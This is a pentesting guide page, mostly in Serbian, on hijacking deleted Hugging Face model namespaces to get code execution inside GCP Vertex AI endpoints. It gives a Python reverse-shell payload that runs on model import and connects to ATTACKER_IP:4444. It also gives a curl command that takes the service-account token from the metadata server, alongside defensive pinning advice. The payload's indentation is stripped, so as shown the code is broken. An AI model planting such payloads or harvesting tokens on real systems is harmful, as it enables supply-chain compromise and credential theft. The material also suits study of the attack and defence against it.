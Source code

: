 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenarij

- Vertex AI Model Garden omogućava direktno postavljanje mnogih Hugging Face (HF) modela.
- HF identifikatori modela su Author/ModelName. Ako je autor/org na HF obrisan, isti naziv autora može ponovo registrovati bilo ko. Napadači tada mogu kreirati repo sa istim ModelName na legacy putanji.
- Pipelines, SDKs, ili cloud catalogs koji povlače po imenu bez pinovanja/integriteta će dohvatiti repo pod kontrolom napadača. Kada je model deploy-ovan, loader code iz tog repoa može se izvršiti unutar Vertex AI endpoint container-a, što dovodi do RCE sa permisijama endpoint-a.

Dva česta slučaja takeover-a na HF:
- Brisanje vlasništva (Ownership deletion): Stari path vraća 404 dok neko ne ponovo registruje autora i ne objavi isti ModelName.
- Prenos vlasništva (Ownership transfer): HF vraća 307 redirect-e sa starog Author/ModelName na novog autora. Ako je stari autor kasnije obrisan i ponovo registrovan od strane napadača, redirect lanac se prekida i napadačev repo služi na legacy putanji.

## Identifikacija ponovo upotrebljivih namespace-ova (HF)

- Stari autor obrisan: stranica autora vraća 404; model path može vraćati 404 dok se ne desi takeover.
- Transferovani modeli: stari model path vraća 307 ka novom owner-u dok stari autor postoji. Ako je stari autor kasnije obrisan i ponovo registrovan, legacy path će rešavati napadačev repo.

Brze provere koristeći curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## End-to-end tok napada protiv Vertex AI

1) Otkrivanje ponovo upotrebljivih model namespaces koje Model Garden navodi kao deployable:
- Pronađite HF modele u Vertex AI Model Garden koji i dalje prikazuju “verified deployable”.
- Proverite na HF da li je originalni author obrisan ili je model prebačen i stari author naknadno uklonjen.

2) Re-register the deleted author on HF and recreate the same ModelName.

3) Objavite maliciozni repo. Uključite kod koji se izvršava pri model load-u. Primeri koji se često izvršavaju tokom HF model load-a:
- Side effects u __init__.py repo-a
- Custom modeling_*.py ili processing kod referenciran u config/auto_map
- Code paths koje zahtevaju trust_remote_code=True u Transformers pipelines

4) A Vertex AI deployment of the legacy Author/ModelName sada povlači attacker repo. The loader executes inside the Vertex AI endpoint container.

5) Payload uspostavlja pristup iz endpoint okruženja (RCE) sa dozvolama endpoint-a.

Example payload fragment executed on import (for demonstration only):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Napomene
- Implementacije loader-a u stvarnom svetu variraju. Mnoge Vertex AI HF integracije kloniraju i importuju module iz repo-a koje modelova konfiguracija navodi (npr. auto_map), što može pokrenuti izvršavanje koda. Neki slučajevi upotrebe zahtevaju trust_remote_code=True.
- Endpoint obično radi u dedikovanom kontejneru sa ograničenim opsegom, ali predstavlja validan početni oslonac za pristup podacima i lateralno kretanje u GCP.

## Saveti za post-eksploataciju (Vertex AI Endpoint)

Kada se kod pokrene unutar kontejnera endpointa, razmislite o:
- Enumerisanju promenljivih okruženja i metapodataka radi nalaženja kredencijala/tokena
- Pristupu prikačenom skladištu ili montiranim artefaktima modela
- Interakciji sa Google API-ima koristeći identitet servisnog naloga (Document AI, Storage, Pub/Sub, itd.)
- Persistenciji u artefaktu modela ako platforma ponovo povuče repo

Enumerišite metapodatke instance ako su dostupni (zavisno od kontejnera):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Odbrambene smernice za korisnike Vertex AI

- Zaključajte modele po commit-u u HF loaders da biste sprečili tihu zamenu:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Preslikajte proverene HF modele u pouzdano interno skladište/artifact registry i deploy-ujte odatle.
- Neprekidno skenirajte codebase-ove i konfiguracione fajlove za hard-coded Author/ModelName koji su obrisani/transferisani; ažurirajte na nove namespace-ove ili ih pin-ujte na commit.
- U Model Garden, verifikujte poreklo modela i postojanje autora pre deployment-a.

## Recognition Heuristics (HTTP)

- Deleted author: author page 404; legacy model path 404 until takeover.
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Unakrsne reference

- Pogledajte širu metodologiju i napomene o lancu snabdevanja:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Reference

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
